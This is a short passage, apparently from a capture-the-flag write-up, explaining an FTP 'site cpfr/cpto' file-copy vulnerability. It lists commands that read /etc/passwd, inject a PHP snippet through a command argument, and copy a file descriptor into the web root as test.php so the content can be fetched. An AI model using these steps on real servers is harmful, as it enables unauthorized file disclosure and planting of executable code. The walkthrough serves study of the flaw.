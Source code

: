 #### Explanation of FTP vulnerability

Basically we can copy content of files and then access them with other sources(in our case SMB).

```
site cpfr /etc/passwd
350 File or directory exists, ready for destination name
site cpto <?php phpinfo(); ?>
550 cpto: Permission denied
site cpfr /proc/self/fd/3
350 File or directory exists, ready for destination name
site cpto /var/www/test.php
```

After running all the command mentioned above we can visit the `/test.php` via website(in our case SMB) to see the content.

But keep in mind you might get `permission denied` error on copying or while trying to get the file using `smb` if you didn't copy the right file at the right place. Like this

![](images/sym2/cp-success.png)

![](images/sym2/denied.png)
